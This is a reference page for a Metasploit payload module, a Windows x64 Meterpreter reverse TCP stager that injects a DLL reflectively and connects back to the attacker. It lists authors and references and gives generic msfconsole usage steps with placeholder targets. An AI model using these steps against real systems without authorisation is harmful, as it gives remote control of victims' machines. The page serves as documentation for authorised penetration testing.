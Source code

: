 ## Windows Meterpreter (Reflective Injection x64), Reverse TCP Stager with UUID Support (Windows x64)

Inject the meterpreter server DLL via the Reflective Dll 
Injection payload (staged x64). Connect back to the attacker 
with UUID Support (Windows x64)


## Module Name
payload/windows/x64/meterpreter/reverse_tcp_uuid

## Authors
* skape
* sf
* OJ Reeves


## References
* https://github.com/stephenfewer/ReflectiveDLLInjection
* https://github.com/rapid7/ReflectiveDLLInjection




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/meterpreter/reverse_tcp_uuid
msf payload(reverse_tcp_uuid) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_uuid) > set TARGET <target-id>
msf payload(reverse_tcp_uuid) > show options
   ... show and set options ...
msf payload(reverse_tcp_uuid) > run
```
    
    
